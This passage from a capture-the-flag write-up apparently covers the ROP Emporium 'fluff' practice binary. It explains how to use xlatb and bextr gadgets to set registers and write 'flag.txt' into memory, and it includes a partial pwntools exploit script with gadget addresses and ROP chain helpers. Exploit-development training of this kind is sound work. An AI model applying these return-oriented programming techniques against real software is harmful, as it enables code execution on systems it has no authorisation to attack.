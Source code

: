Therefore, we should set RBX to the following:

```
Memory address pointing to the character we want - unsigned AL
```

Since we ultimately want to write `flag.txt`, we will be able to predict what the values of AL should be.
In short, the first time we execute `xlab`, `AL` will be `f` in ascii. The second time it executes, AL will be `l` in ascii, and so on.

We can find addresses in memory that point to the bytes of our choice with `pwntools` `elf.search()` which simplifies the code when dynamically searching for specific byte patterns.

The code below builds upon the way we control the `RBX` register, allowing us to immediately control the `AL` register with a single function call.
Keep in mind, this requires that we have knowledge of what the `AL` register was initially before we invoke this function.
In some cases, it may be preferrable to zero out the `AL` register before this operation to make it predictable. However, for this challenge, the initial value in the `RBX` register was `0x0b`.

```python
import ctypes
from pwn import *

def prepare_rbx(target, rop):
    # Constants
    pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget = p64(0x0040062a)      # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
    magic_const = 0x3ef2

    # ROP Chaining
    rop.raw(pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget)
    rop.raw(p64(0x4000)) # Extract 64 bits from offset 0 in RCX. Results will be written to RBX.
    rop.raw(p64(ctypes.c_ulong(target - magic_const).value))

def prepare_al(target, current_al, rop, elf):
    xlat_ret_gadget = p64(0x00400628)                               # xlatb; ret;
    target_byte_addr = next(elf.search(target))
    rbx = ctypes.c_ulong(target_byte_addr - current_al).value
    prepare_rbx(rbx, rop)
    rop.raw(xlat_ret_gadget)

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './fluff'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x0040062a"
pid = gdb.attach(io, gdbscript=gdbscript)

# Gadgets
rop = ROP(io.elf)
writable_data_segment = 0x00601028
stosb_gadget = p64(0x00400639)                                  # stosb byte [rdi], al; ret;
pop_rdi_ret = p64(0x004006a3)                                   # pop rdi; ret;

# Build the ROP chain

# Prepare the AL register
target = b"f"
initial_al = 0x0b
```